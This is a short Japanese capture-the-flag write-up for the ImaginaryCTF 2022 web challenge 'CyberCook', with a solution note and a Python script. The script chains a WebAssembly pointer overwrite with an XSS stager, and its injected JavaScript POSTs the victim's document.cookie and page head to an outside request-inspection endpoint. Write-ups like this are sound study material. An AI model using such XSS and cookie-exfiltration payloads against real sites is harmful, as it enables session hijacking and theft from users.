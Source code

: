 ```yaml
---
layout: chall
ctf_name: imaginaryctf_2022
problem_name: CyberCook
genre: web
solved_date: 2022-07-18
during_ctf: true
tag: [wasm,xss]
fav: false
difficulty: normal
---
```


### 概要



### 解法

実験をしていると、変換する文字の長さが 60 字以上のときに戻り値のポインタを base64 でエンコードした後の値によって書き換えることができることが分かった。これを用いて、hex を変換した後のバッファの位置にポインタを
向け、`innerHtml` に書き込まれる値を制御することができた。
<details><summary>スクリプト</summary>

```py
import base64

import requests

stager = "<img src=e onerror=eval(location.hash.slice(1))>"
stager += " " * (6 - len(stager.encode()) % 6)

assert len(stager) % 6 == 0

payload = stager.encode()
payload += base64.b64decode((0x00503670).to_bytes(8, "little").replace(b'\x00', b'/'))[:6] * 8

url = 'http://localhost:8080/?action=base64&input='
script = "fetch('https://requestinspector.com/inspect/01g85s4t9q77sty57kf0fyhksy',{method:'POST',body:document.cookie+'\\n'+document.head.innerHTML});"

print(f'[+] {len(payload)=}')
print(url + payload.hex() + "#" + script)
```

</details>

